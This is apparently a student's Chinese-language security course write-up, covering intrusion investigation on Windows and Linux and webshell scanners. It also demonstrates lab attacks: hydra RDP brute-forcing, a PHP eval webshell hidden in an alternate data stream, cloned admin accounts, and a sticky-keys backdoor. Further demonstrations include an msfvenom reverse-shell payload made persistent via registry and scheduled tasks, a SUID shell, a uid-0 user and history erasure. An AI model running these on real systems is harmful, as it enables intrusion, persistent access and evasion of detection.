






# 一、使用 hydra 或者超级弱口令工具分别对 Windows 系统和 Linux 系统进行爆破，检查系统账号安全，分析爆破日志，不限使用工具。
## 1. hydra
### 1.1 爆破 Windows
靶机：win7   
```shell
 hydra 192.168.228.150 rdp -l win7 -P /mnt/hgfs/kali_share/password.txt -Vv
```
   
爆破之后，通过查看windows日志，分析爆破痕迹。   
```shell
 eventvwr.msc
```
打开日志查看器。   
   
通过筛选，查看特定事件id的日志。   
```text
 4624 --登录成功
 4625 --登录失败
 4634 -- 注销成功 
 4647 -- 用户启动的注销
 4672 -- 使用超级用户（如管理员）进行登录
```
注销日志：   
   
   
登录成功日志：   
   
登录失败日志：   
   
win7，未发现该类日志。更换win Server 2022 后，重复上面操作，看到了大量的 4625。   
   
### 1.2 爆破 Linux
## 2. 弱口令工具
# 二、不论是 Windows 系统还是 Linux 系统，常规的检查项包括账号、端口、进程等内容，当从常规检查中没有发现异常时，就要考虑从启动项、计划任务、服务等维度进行排查，分别练习上述内容的排查方法。
## 1. Windows
### 1.1 账号检查
#### 1.1.1 询问相关服务管理员服务器是否有弱口令，远程管理端口是否对公网开放
#### 1.1.2 查看服务器是否存在可疑账号、新增账号
```text
 1. cmd
 2. 输入lusrmgr.msc
```
查看是否有新增/可疑账号。   
   
#### 1.1.3 查看是否存在隐藏账号、克隆账号
制作隐藏账号：   
```shell
 # cmd 中输入以下内容
 net user test$ /add
```   
   
使用命令查看用户：   
```shell
 net user
```   
   
我们发现并没有刚才新增的隐藏用户，使用 1.1.2中的办法查看用户。   
   
使用D盾来查看隐藏账号。   
   
制作克隆账号：    
打开注册表   
```shell
 regedit
```   
进入到 `HKEY_LOCAL_MACHINE -> SAM -> SAM ` 如果发现没有下级目录，需要给完全控制权限。   
   
   
查看`Names`   
   
将`administrator`的F的二级制值复制到`test1`用户中。   
   

注销，登录`test1`用户，查看。   
   
   
成功将 `administrator` 复制给了 `test1`。使用D盾查看。   

### 1.2 异常端口检查
输入指令，查看连接状态的异常端口。   
```shell
 netstat -ano
```
   
```text
 ESTABLISHED：完成连接并正在进行数据通信的状态。
 LISTENING：表示处于侦听状态，就是说该端口是开放的，等待连接，但还没有被连接。
 CLOSE_WAIT：对方主动关闭连接或者网络异常导致连接中断。
 TIME_WAIT：我方主动调用close()断开连接，收到对方确认后状态变为TIME_WAIT。
```   
根据 netstat 命令定位出的 PID 编号，再通过 tasklist 命令进行进程定位.
```shell
 tasklist | findstr "PID"
```
   
### 1.3 异常进程排查
```shell
 tasklist /svc
```   
   
或者通过查看正在运行的任务。   
```shell
 # win+R
 msinfo32
```
   
也可以直接使用D盾进行查看。   
   
微软的 `Process Explorer` 也可以查看。   
```url
 # 下载地址
 https://docs.microsoft.com/zh-cn/sysinternals/downloads/process-explorer
```
   
主要观察一下可以进程：   
```text
 没有签名验证信息的进程 
 没有描述信息的进程 
 进程的属主、进程的路径是否合法 
 CPU或内存资源占用长时间过高的进程（比如挖矿）
```
### 1.4 启动项排查   
（1）登录服务器，单击【开始】>【所有程序】>【启动】，默认此处是空的。   
   
（2）`win+R` 输入 `msconfig`，查看是否有可疑的启动项目。   
   
（3）通过注册表排查，`win+R` 输入 `regedit` ，重点观测以下内容。   
```text
 HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\run 
```   
  
```plain
 HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run 
``` 
   
```plain
 HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Runonce
```
   
(4) 使用安全软件查杀   
(5) 查看组策略   
```plain
 # win+R
  gpedit.msc
```   
   
### 1.5 计划任务排查
 （1） win + R ，输入 `control`   
    
 （2） 选择系统和安全   
    
 （3） 查看管理工具中的计划任务   
    
    
 ### 1.6 异常服务排查
 （1）win + R, 输入 `services.msc`   
    
    
 ## 2. linux 入侵排查   
 ### 2.1 账号安全
 (1)账号   
 ```text
  1. 用户信息文件 /etc/passwd
  root:x:0:0:root:/root:/bin/bash
  用户名：密码：用户ID：组ID：用户说明：家目录：登陆之后的shell
  2. 影子文件 /etc/shadow (需要root权限)
  root:$6$oGs1PqhL2p3ZetrE$X7o7bzoouHQVSEmSgsYN5UD4.kMHx6qgbTqwNVC5oOAouXvcjQSt.Ft7ql1WpkopY0UV9ajBwUt1DpYxTCVvI/:16809:0:99999:7:::
  用户名：加密密码：最后一次修改时间：最小修改时间间隔：密码有效期：密码需要变更前的警告天数：密码 过期后的宽限时间：账号失效时间：保留字段
 ```   
    
    
 其他指令：
 ```text
  who 查看当前登录用户
  w 查看系统信息，想知道某一时刻用户的行为
  uptime 查看登录多久，多少用户，负载状态
 ```
    
    
    
 （2）入侵排查   
 查询特权用户（uid为0）
 ```bash
 awk -F: '$3==0{print $1}' /etc/passwd
 ```   
    
 查询可以远程登录的账号信息   
 ```bash
 awk '/\$1|\$6/{print $1}' /etc/shadow
 ```   
    
 除`root`账号外，其他账号是否存在sudo权限，如非管理需要，普通账号应删除sudo权限   
 ```bash
  more /etc/sudoers | grep -v "^#\|^$" | grep "ALL=(ALL)"
 ```   
    
 禁用或删除多余及可以的账号   
 ```bash
  usermod -L user 禁用账号，账号无法登录， /etc/shadow 第二栏为 `!` 开头
  userdel user 删除用户
  userdel -r user 将删除user用户，并且将 /home 目录下的 user 目录一并删除
 ```  
 历史命令   
 通过.bash_history 文件查看账号执行过的系统命令。   
 ```text
  1. 查看当前用户的历史命令
  history
  2. 打开 /home 各账号目录下的 .bash_history,查看普通账号执行的历史命令。
  3. 历史操作命令的清除：history -c,但此命令不会清除保存在文件中的记录，因此需要手动删除 .bash_profile 文件中的记录。
 ```   
    
    
 .bash_history 不存在，查看 `.zsh_history`。   
 检查异常网络连接   
 ```bash
  netstat -antlp
 ```   
    
 查看 pid 对应的进程文件路径：   
 ```bash
  ls -l /proc/$PID/exe
  file /proc/$PID/exe
 ```   
 检查异常进程   
 ```bash
  ps aux | grep pid
 ```   
    
 检查开机启动项   
 ```text
  linux 系统的7个系统运行级别（runlevel）
  运行级别0：系统停机状态，系统默认运行级别不能设为0，否则不能正常启动
  运行级别1：单用户工作状态，root权限，用于系统维护，禁止远程登陆
  运行级别2：多用户状态(没有NFS)
  运行级别3：完全的多用户状态(有NFS)，登陆后进入控制台命令行模式
  运行级别4：系统未使用，保留 
  运行级别5：X11控制台，登陆后进入图形GUI模式
  运行级别6：系统正常关闭并重启，默认运行级别不能设为6，否则不能正常启动
 ```
 |运行级别|含义|
 |---|---|
 |0|关机|
 |1|单用户模式，可以想象为windows的安全模式，主要用于系统修复|
 |2|不完全的命令行模式，不含NFS服务|
 |3|完全的命令行模式，就是标准字符界面|
 |4|系统保留|
 |5|图形模式|
 |6|重启动|   

查看开机启动配置文件。   
 ```bash
  /etc/rc.d/rc.local
  /etc/rc.d/rc[0~6].d
 ```   
    
 kali中直接分为了7个级别的 `rc[0~6].d`。   
 使用 `chkconfig` 检查、设置系统的各种服务。   
 ```bash
  chkconfig --list [name] //服务列表[可根据实际需要，停掉不用服务] 
  chkconfig --add [name] //服务添加[如缺省，则从缺省的init脚本自动建立] 
  chkconfig --del [name] //服务删除[并把相关符号连接从/etc/rc[0-6].d删除]
 ```   
 当我们需要设置开启启动的脚本时，只需要将可执行脚本放在/etc/init.d目录下，然后在/etc/rc.d/rc[0~6].d目录下建立软连接即可。   
检查定时任务。  
  ```text
  crontab -l 列出某个用户定时任务的详细内容 
  Tips：默认编写的crontab文件会保存在 (/var/spool/cron/用户名 例如: /var/spool/cron/root） 
  crontab -r 删除每个用户cron任务(谨慎：删除所有的计划任务) 
  crontab -e 使用编辑器编辑当前的crontab文件 
  如：*/1 * * * * echo "hello world" >> /tmp/test.txt 每分钟写入文件
  ```
 关注以下目录是否存在恶意脚本：
 ```text
  /var/spool/cron/* 
  /etc/crontab 
  /etc/cron.d/* 
  /etc/cron.daily/* 
  /etc/cron.hourly/* 
  /etc/cron.monthly/* 
  /etc/cron.weekly/ 
  /etc/anacrontab 
  /var/spool/anacron/*
 ```
 可以使用 `more` 来查看：   
 ```bash
  more /etc/cron.daily/* 查看/etc/cron.daily/目录下的所有文件
 ```
检查服务：   
服务自启动：   
```bash
 # 第一种修改方式
 chkconfig [--level 运行级别] [独立服务名] [on|off] 
 chkconfig –-level 2345 httpd on 开启自启动 
 chkconfig httpd on （默认level是2345）
 # 第二种修改方式
 修改 /etc/rc.d/rc.local 文件 
 加入 /etc/init.d/httpd start
```
入侵排查：   
查询已安装的服务：   
```text
 chkconfig --list 查看服务自启动状态，可以看到所有的RPM包安装的服务 
 ps aux | grep crond 查看当前服务 
 
 查看系统在3与5级别下的启动项 
 中文环境 
 chkconfig --list | grep "3:启用\|5:启用" 
 英文环境 
 chkconfig --list | grep "3:on\|5:on"
```
 源码包安装的服务：
 ```text
 源码包服务的启动管理：/usr/local/ 
 源码包服务的自启动管理：/etc/rc.d/init.d/
 ```
检查异常文件：   
1、查看敏感目录，如/tmp目录下的文件，同时注意隐藏文件夹，以“..”为名的文件夹具有隐藏属性。   
2、排查Webshell、远控木马的创建时间。   
```text
 如何找出同一时间范围内创建的文件？ 
 可以使用find命令来查找，如：find /opt -iname "*" -atime 1 -type f 找出 /opt 下一天前访问过的文件
```
3、针对可疑文件可以使用 stat 查看创建修改时间。   
检查系统日志:   
日志默认存放位置：/var/log/   
查看日志配置情况：more /etc/rsyslog.conf   
   
日志分析技巧：
```text
 1、定位有多少IP在爆破主机的root账号： 
 grep "Failed password for root" /var/log/secure | awk '{print $11}' | sort | uniq -c | sort -nr | more 
 
 2、定位有哪些IP在爆破： 
 grep "Failed password" /var/log/secure | grep -E -o "(25[0-5]|2[0-4][0-9]|[01]? [0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]? [0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)"|uniq -c 
 
 3、爆破用户名字典是什么？ 
 grep "Failed password" /var/log/secure|perl -e 'while($_=<>){ /for(.*?) from/; print "$1\n";}' | uniq -c | sort -nr 
 
 4、登录成功的IP有哪些： 
 grep "Accepted " /var/log/secure | awk '{print $11}' | sort | uniq -c | sort -nr | more 
 
 5、登录成功的日期、用户名、IP： 
 grep "Accepted " /var/log/secure | awk '{print $1,$2,$3,$9,$11}'
```
# 三、课堂上演示了 D 盾的查杀效果，请任选另外两款 Webshell 查杀工具，测试查杀效果。
## 1. 河马   
### 1.1 简介
专注 WebShell 查杀研究，拥有海量 WebShell 样本和自主查杀技术，采用传统特征+云端大数据双引擎的查杀技术。查杀速度快、精度高、误报低。
### 1.2 下载地址
```url
 https://www.shellpub.com
```
### 1.3 安装与使用
安装：   
   
   
将一个一句话木马写入C盘中：   
   
   
打开安装好的 `河马`：   
   
点击立即扫描，设置扫描路径：   
   
点击开始扫描：   
   
没有扫出来，试试在线的：   
   
在线的可以正常扫描出来。   
## 2. Web Shell Detector
### 2.1 简介
Web Shell Detector 具有 WebShell 签名数据库，可帮助识别高达 99％ 的 WebShell。
### 2.2 官方网站
```url
 http://www.shelldetector.com
```
### 2.3 上传文件，检测
   
上传后，下方可以查看检测状态：   
   
等待结果：   
   

# 四、权限维持 - 隐藏篇：
## 1. Windows 实现文件、账号的隐藏.
### 1.1 文件隐藏
（1）利用文件属性   
右键，属性：   
   
隐藏：   
   
   
看不见该文件了：   
   
通过文件夹选项可以查看到隐藏文件：   
   
   
   
真正的隐藏文件   
```bash
 attrib +s +a +h +r one.php
```
   
在显示隐藏文件的情况下，文件不见了：   
   
显示该类文件：   
   
   
（2）利用ADS隐藏文件内容
```bash
 echo ^<?php @eval($_POST['test']);?^> > index.php:hidden.jpg
```   
   
打开index.php，查看   
   
看不到任何内容。   
使用 `notepad` 查看文件内容。   
```bash
 notepad index.php:hidden.jpg
```
   
普通的 `dir` 也看不到该文件：   
   
使用 `dir /r` 进行查看：   
  
删除 `index.php`时，`index.php:hidden.jpg` 就也不在了。   

### 1.2 账号隐藏
隐藏账号：   
```shell
 # cmd 中输入以下内容
 net user test$ /add
```   
   
使用命令查看用户：   
```shell
 net user
```   
   
我们发现并没有刚才新增的隐藏用户，使用 1.1.2中的办法查看用户。   
   
使用D盾来查看隐藏账号。   
   
制作克隆账号：    
打开注册表   
```shell
 regedit
```   
进入到 `HKEY_LOCAL_MACHINE -> SAM -> SAM ` 如果发现没有下级目录，需要给完全控制权限。   
   
   
查看`Names`   
   
将`administrator`的F的二级制值复制到`test1`用户中。   
   

注销，登录`test1`用户，查看。   
   
   
成功将 `administrator` 复制给了 `test1`。使用D盾查看。   

## 2. Linux 实现文件时间戳、历史操作命令的隐藏。
### 2.1 隐藏文件时间戳
```bash
 # 设置该文件的时间为：2021年07月03日。
 touch -t 2107032015.30 one.php
```

### 2.2 隐藏历史操作命令
#### 2.2.1 关闭历史记录
首先查看下之前的历史记录：   
   
关闭：   
```bash
 set +o history
```
   
恢复：   
```bash
 set -o history
```
   
从历史记录中删除指定的命令：   
查找指定的命令：   
```bash
 history | grep "keyword"
```
   
删除指定num:  
```bash
 history -d 27
```
   
之前的set命令被删除了。   
批量删除，只保留到多少行的日志，比如某行之前是正常用户的操作，后面是黑客的操作，那么就删除后面的记录就可以了。
```bash
 sed -i '3,$d' .bash_history
```

# 五、权限维持 - 后门篇
## 1. Windows：任选三种方法实现后门权限维持，并给出维持后的攻击效果（比如靶机重启后，Kali 侧监听上线）.
### 1.1 粘滞键后门
简介：   
```text
 粘滞键指的是电脑使用中的一种快捷键，专为同时按下两个或多个键有困难的人而设计的。粘滞键的主要功能是方便Shift等键的组合使用。一般的电脑连按五次shift会出现粘滞键提示。sethc.exe就是windows中粘滞键的调用文件。
 sethc.exe文件的属性，默认情况下是属于TrustedInstaller所有，不管是普通用户还是administrator都没有权限对它进行编辑的。TrustedInstaller是一个安全机制，权限比administrator管理权高，但比system低。
```   
按5次`shift`唤起。   
   
修改 `sethc.exe` 权限。   
   
   
   
重新查看权限。   
   
将原来的 `sethc.exe` 重命名为 `sethc1.exe`, 然后 `copy` 终端程序为 `sethc.exe`。   
```bash
 move sethc.exe sethc1.exe
 copy cmd.exe sethc.exe
```   
   
注销登录。   
    
按5次`shift`唤起替换后的`cmd`。   
   
并且权限为`system`。   
### 1.2 注册表自启动后门
首先使用 `kali` 制作一个后门程序。   
```bash
 msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.228.129 LPORT=5555 -f exe -o 5555.exe 
```   
   
将后门程序，上传到服务器中。   
   
注册表位置：   
```text
 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```
添加键为 `test1` ,值为后门程序的路径。   
```bash
 REG ADD "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v test1 /t REG_SZ /d "C:\Users\Administrator\Desktop\5555.exe"
```   
   
   
开启 `kali` 监听。   
    
重启 `win7` 靶机。   
   
上线成功。   

### 1.3 计划任务后门
上传后门程序。   
   
`kali` 启动监听。   
   
使用 schtasks 设置计划自启动后门。   
```bash
 schtasks /Create /tn Updater /tr C:\Users\Administrator\Desktop\5555.exe /sc minute /mo 1 #每1分钟自动执行7764.exe
```
   
等待执行后，成功上线。   
   
删除计划任务。   
```bash
 schtasks /delete /tn Updater
```  

## 2. Linux：任选两种方法实现后门权限维持。
### 2.1 SUID Shell
SUID Shell是一种可用于以拥有者权限运行的shell。   
首先添加一个名为 `guest` 的普通用户。   
```bash
 useradd -p `openssl passwd -1 -salt 'salt' 123456` guest
```   
   
将shell复制到tmp下，然后给 s 权限。   
```bash
 cp /bin/bash /temp/bash 
 chmod u+s /temp/bash
```
   
切换普通用户 `guest`。   
```bash
 su guest
```
然后执行：   
```bash
 /temp/bash -p
 whoami
```
   
排查技巧：   
```bash
 # 在Linux中查找使用SUID设置的文件 
 find . -perm /4000 
 # 在Linux中查找使用SGID设置的文件 
 find . -perm /2000 
 # 取消s权限 
 chmod u-s /tmp/shell
```
### 2.2 一句话添加用户和密码   
添加普通用户的方法：   
```bash
 # 创建一个用户名guest，密码123456的普通用户 
 useradd -p `openssl passwd -1 -salt 'salt' 123456` guest 
 # useradd -p 方法 ` ` 是用来存放可执行的系统命令,"$()"也可以存放命令执行语句 
 useradd -p "$(openssl passwd -1 123456)" guest 
 # chpasswd方法 
 useradd guest;echo 'guest:123456'|chpasswd 
 # echo -e方法 
 useradd test;echo -e "123456\n123456\n" |passwd test
```
   
创建用户名为 `guest1` 的 `root`用户。   
```bash
 useradd -p `openssl passwd -1 -salt 'salt' 123456` guest1 -o -u 0 -g root -G root -s /bin/bash -d /home/test
```
   
切换`guest1`用户，`whoami` 查看结果为`root`。   
   
排查技巧：   
```bash
 # 查询特权用户，特权用户(uid 为0) 
 [root@localhost ~]# awk -F: '$3==0{print $1}' /etc/passwd 
 # 查询可以远程登录的账号信息 
 [root@localhost ~]# awk '/\$1|\$6/{print $1}' /etc/shadow 
 # 除root账号外，其他账号是否存在sudo权限。如非管理需要，普通账号应删除sudo权限 
 [root@localhost ~]# more /etc/sudoers | grep -v "^#\|^$" | grep "ALL=(ALL)"
```
查询特权用户   
   
查询可以远程登录账号   
   
查询sudo权限，使用上述命令在 `kali` 中无信息，使用下面的命令查看   
```bash
 getent group sudo
```   

